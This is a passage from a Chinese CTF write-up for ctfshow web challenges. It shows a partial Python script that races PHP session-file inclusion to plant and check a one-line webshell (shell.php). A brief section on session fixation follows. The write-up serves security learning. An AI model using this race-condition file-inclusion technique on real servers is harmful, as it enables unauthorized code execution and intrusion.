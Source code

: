 ```python

def read(session):
    while True:
        session.get(url + '?path=/tmp/sess_' + sessionid) # 进行文件包含
        r = session.get(url+'shell.php') # 检查是否写入一句话木马
        if r.status_code == 200:
            print('OK')
            return ''

evnet=threading.Event() # 多线程

session = requests.session()
for i in range(5):
    threading.Thread(target = write,args = (session,)).start()
for i in range(5):
    threading.Thread(target = read,args = (session,)).start()

evnet.set()
```



![34](/medias/ctfshow-web/34.png)

## 第四章

### Session固定攻击

没看懂，登录发送信息就有flag了

![25](/medias/ctfshow-web/25.png)
